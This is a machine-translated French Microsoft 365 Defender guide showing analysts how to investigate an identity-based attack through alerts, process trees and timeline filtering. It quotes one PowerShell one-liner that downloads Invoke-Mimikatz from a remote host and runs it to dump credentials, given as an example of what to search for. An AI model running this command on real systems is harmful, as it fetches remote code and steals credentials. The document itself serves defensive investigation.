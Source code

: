 ```yaml
---
title: Exemple d’attaque basée sur l’identité
description: Analyse pas à pas d’une attaque basée sur l’identité.
keywords: incidents, alertes, examiner, corrélation, attaque, ordinateurs, appareils, utilisateurs, identités, identité, boîte aux lettres, courrier électronique, 365, microsoft, m365, réponse aux incidents, cyber-attaque
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 57a324310458dc15f5edcd6012ab381bb4d5041d902b8871d85cb318f0e7023e
ms.sourcegitcommit: a1b66e1e80c25d14d67a9b46c79ec7245d88e045
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 08/05/2021
ms.locfileid: "53873615"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d’attaque basée sur l’identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour l’identité peut vous aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Étant donné que Defender pour l’identité s’intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender for Identity, telles que les tentatives d’élévation de privilège Netlogon suspectes.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l’attaque dans Microsoft Defender pour l’identité

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection dans l’onglet **Alertes** de la page Incidents. Dans l’exemple suivant, la source de détection est filtrée sur **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exemple de filtrage de la source de détection pour Defender for Identity":::

La sélection de **l’alerte d’attaque** suspectée de surpassage de hachage permet d’Microsoft Cloud App Security page qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant En savoir plus sur ce **type** d’alerte pour lire une [description](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) de l’attaque ainsi que des suggestions de correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exemple d’alerte d’attaque par passe-viapasse suspectée"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Étude de la même attaque dans Microsoft Defender pour le point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l’activité sur un point de terminaison. Sélectionnez l’incident dans la file d’attente des incidents, puis sélectionnez **l’onglet Alertes.** À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée comme PEPT signifie Endpoint Detection and Response, qui est Defender for Endpoint. À partir de là, l’analyste sélectionne une alerte détectée par PEPT.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exemple de détection et de réponse de point de terminaison dans Defender pour le point de terminaison"::: 

La page d’alerte affiche diverses informations pertinentes telles que le nom de l’appareil, le nom d’utilisateur, l’état de l’examen automatique et les détails de l’alerte. L’article d’alerte représente une représentation visuelle de l’arborescence de processus. L’arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l’alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exemple d’arborescence de processus d’alerte dans Defender pour le point de terminaison"::: 

Chaque processus peut être étendu pour afficher des détails supplémentaires. Les détails qu’un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d’un script malveillant, les adresses IP de connexion sortante et d’autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exemple de détails de processus dans Defender pour le point de terminaison":::
 
En sélectionnant **Voir dans la** chronologie, un analyste peut aller encore plus loin pour déterminer l’heure exacte de la compromission. 

Microsoft Defender pour le point de terminaison peut détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l’activité de ligne de commande, certaines activités seraient considérées comme étant anodins jusqu’à ce qu’elles créent un fichier ou une activité malveillante. Par conséquent, l’utilisation de la chronologie permet aux analystes de mettre l’alerte en contexte avec l’activité qui l’entoure pour déterminer la source ou l’heure d’origine de l’attaque qui, sinon, est masquée par l’activité courante du système de fichiers et des utilisateurs. 

Pour ce faire, un analyste commence au moment de la détection de l’alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer à quel moment l’activité d’origine qui a conduit à l’activité malveillante a réellement commencé. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exemple de démarrage au moment de la détection de l’alerte"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d’activation de logiciels de confiance Windows, d’autres connexions communes aux sites Microsoft, l’activité Internet tierce, l’activité Microsoft Endpoint Configuration Manager et toute autre activité faible contre les activités suspectes. Une façon d’y parvenir consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l’analyste ne souhaite pas afficher. 

Dans l’image ci-dessous, l’analyste a filtré pour afficher uniquement les événements réseau et de traitement. Cela permet à l’analyste de voir les connexions réseau et les processus qui entourent l’événement où Bloc-notes a établi une connexion avec une adresse IP, ce que nous avons également vu dans l’arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exemple de la façon Bloc-notes utilisé pour établir une connexion sortante malveillante"::: 

Dans cet événement particulier, Bloc-notes utilisé pour établir une connexion sortante malveillante. Toutefois, souvent, les personnes malveillantes utilisent simplement iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car en règle iexplorer.exe processus sont considérés comme une activité régulière du navigateur web.

Un autre élément à rechercher dans la chronologie serait l’utilisation de PowerShell pour les connexions sortantes. L’analyste recherche les connexions PowerShell réussies avec des commandes telles qu’une connexion sortante à un site web hébergeant `IEX (New-Object Net.Webclient)` un fichier malveillant. 

Dans l’exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d’un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le [chemin d’accès de l’enquête](first-incident-path-phishing.md) sur le hameçonnage.

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Examiner des incidents](investigate-incidents.md)
